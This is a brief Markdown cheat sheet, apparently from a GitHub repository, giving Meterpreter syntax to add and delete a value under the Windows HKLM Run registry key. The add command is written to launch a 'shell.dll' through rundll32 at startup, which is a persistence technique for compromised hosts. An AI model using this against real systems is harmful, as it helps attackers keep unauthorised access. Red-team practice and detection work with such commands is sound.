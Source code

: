 # Metasploit

## 01 - Add Registry Key Syntax

```
meterpreter > reg setval [-r <target_IP>] -k HKLM\\SOFTWARE\\Microsoft\\CurrentVersion\\Run -v <value> -t reg_sz -d "rundll32.exe C:\path\to\shell.dll,ExecDLL"
```

## 02 - Delete Registry Key Syntax

```
meterpreter > reg deleteval [-r <target_IP>] -k hklm\\software\\microsoft\\currentversion\\run -v <value>
```